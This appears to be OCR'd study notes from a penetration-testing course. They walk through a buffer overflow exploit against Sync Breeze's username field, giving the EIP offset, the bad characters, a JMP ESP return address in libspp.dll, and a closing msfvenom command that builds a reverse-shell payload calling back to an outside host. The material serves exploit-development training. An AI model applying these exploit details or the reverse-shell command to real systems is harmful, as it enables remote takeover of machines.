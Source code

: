 		We find that these 4 bytes are at lenght 780 of the username buffer
		We then update the python fuzzer to use a username buffer composed of 780 As, 4 Bs and 16 Cs (16 Cs to fill the original 800 bytes buffer lenght proven to crash Sync Breeze reliably)
	Locating space for our shellcode:
		At this point we can control the EIP content, but first we need to identify to which address point the EIP (i.e. the address of our shellcode of choice)
		ESP seems a convenient location for our shellcode, but we need to increase our username buffer lenght (for example from 800 to 1500 bytes, as in 780 As, 4 Bs, 16 Cs and 700 Ds), since a reverse shell shellcode is usually 350 to 400 bytes in size
		We run the python fuzzer again and we find that this new username buffer gives us more than 700 bytes of free space for our shellcode
	Checking for bad characters:
		These are characters that will make the shellcose 
		An example is the null byte 0x00 (which is used to terminate a string in low level languages)
		Another often bad character is the rerutn character 0x0D, which signify the end of an HTTP field, in our case the username 
		The most comon way to idenfy bad chars is to send all possible chars (from 0x00 to 0xFF) as part of our buffer to the application and see how these chars are handled by the application
		To do this, we change the username buffer of the python fuzzer accordingly (we populate the username buffer with a string containing ALL possible chars), we crash Sync Breeze and we "Follow in Dump" the ESP
		From the HEX dump we find that the character 0x0A is not present (0x0A is the Line Feed character, which also breaks HTML like a carriage return 0x0D), we remove it from the username buffer of the python fuzzer and we run it again
		At the next iteration, we find out that 0x0D is also bad, which was expected, knowing that 0x0D is a carriage return and breaks HTML
		Running the python fuzzer recursively and taking out one by one all the bad chars that we identify, we came to the conclusion that in our Sync Breeze scenario, all the following are bad chars: 0x00, 0x0A, 0x0D, 0x25, 0x26, 0x2B, 0x3D
	Redirecting the execution flow (finding the return address):
		The most intuitive approach is the replace the Bs (EIP) with the address of the ESP at the time of the crash, however we see that the ESP value is changing from crash to crash (since each thread has a different stack region in memory allocated by the operating system), thus overwriting the EIP with the ESP address is not a reliable solution
		The solution is to use the JMP ESP instruction (or its memory address), which is a way to dynamically and reliably point the execution flow (the EIP) to the ESP address, thus our shellcode
		We need to find a reliable and static JMP ESP instruction. JMP ESP is a very common instruction, found in several Windows libraries. However, we cannot use libraries compiled with ASLR support, since in these the memory addresses are not static
		Also, we need to find a JMP ESP instruction not only static, but whose address does not contain any of the bad chars identified prior
		We use the Immunity Debugger mona modules (!mona modules) to navigate all the libraries (DLLs) used by the Sync Breeze executable
		We find that the Sync Breeze executable has all the memory protection schemes disabled (which is good), but its address is 00400000, which are all bad chars (thus not good). We need to look further
		Searching further, we find that libspp.dll suits our needs in terms of memory protection not used and address with no bad chars in it
		Now we need to find a naturally occurring JMP ESP instruction within the libspp.dll. We can perform this search with !mona find
		To find the opcode of a JMP ESP instruction, we can use the msf-nasm_shell and type "jmp esp" once in the nasm shell. We find that the opcode for JMP ESP is FFE4
		We can now search for a JMP ESP instruction within libspp.dll with the !mona find command and passing the HEX representation of the JMP ESP opcode: !mona find -s "\xff\xe4" -m "libspp.dll". This command gives us the result of the 0x10090c83 address for a JMP ESP instruction in libspp.dll and, fortunately, this address does not contain any of the bad chars for Sync Breeze. This is our "return address"
		We update the python fuzzer with the return address just found in place of the 4 Bs (but in reverse order "\x83\x0c\x09\x10", due to the Little Endian byte order of Win32 systems, where the low order byte of the number is stored in memory at the lowest address and the high order byte is stored at the highest memory address, thus the reverse order of the return address for the CPU to interpret it correctly)
	Generating shellcode with metaploit:
		msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=443 -f c 